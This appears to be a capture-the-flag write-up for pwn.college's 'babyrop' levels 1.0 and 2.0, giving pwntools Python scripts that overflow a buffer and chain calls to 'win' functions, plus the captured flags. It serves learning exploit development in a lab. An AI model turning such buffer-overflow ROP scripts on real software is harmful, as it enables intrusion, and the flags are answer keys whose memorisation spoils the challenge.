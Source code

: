 # babyrop level1.0

why must hurt yourself? do it the manly way: using **pwntools** and it's useful `ROP` class :D

here's the python code for it
```py
# import that bad boi
from pwn import *
# set the context to 64bit arch (because the binary is compiled within that arch)
context.clear(arch='amd64')
# load the challenge executable to ELF class provided by pwn
e = ELF('/challenge/babyrop_level1.0')
# create new process (you can do it with subprocess too but pwn provide more handy way to handle the interaction)
r = e.process()
# we wait till the program starts asking input
r.recvline_endswith(b'return address).')
# load executable to create ROP chain using ROP class provided by pwntools
ro = ROP(e)
# call em "win"
ro.call("win")
# create em sexy ass payload
payload = [
    b'A' * 88, # we fill the buffer up + anything before retaddr (in this case, the program already told us the amount we have to fill it up :D)
    ro.chain() # then we put the rop chain after it
]
payload = b"".join(payload)
# send it
r.sendline(payload)
# we finally got the flag yay
r.interactive()
```

the flag is
```
pwn.college{MNXpL_8RBKcXg2abbpKjFANsZ-Q.QXxQzMsMTN1QzW}
```
# babyrop level2.0
the same as level1.0 but because it's ROP from pwntools it will be easy af

here's the python code for it:
```py
# same stuffs prep like level1.0
from pwn import *
context.clear(arch='amd64')
e = ELF('/challenge/babyrop_level2.0')
r = e.process()
r.recvline_endswith(b'return address).')
# rop part woohoo!!!
ro = ROP(e)
# call em "win_stage_1" first
ro.call("win_stage_1")
# then we call "win_stage_2" after that
ro.call("win_stage_2")
# create em sexy ass payload
payload = [
    b'A' * 56, # we fill the buffer up + anything before retaddr (in this case, the program already told us the amount we have to fill it up :D)
    ro.chain() # then we put the rop chain after it
]
payload = b"".join(payload)
# send it
r.sendline(payload)
# we finally got the flag yay
r.interactive()
```

the flag is
```
pwn.college{MDe5JbV3oM9Xkv59dFwPpKeGeKi.QXzQzMsMTN1QzW}
```
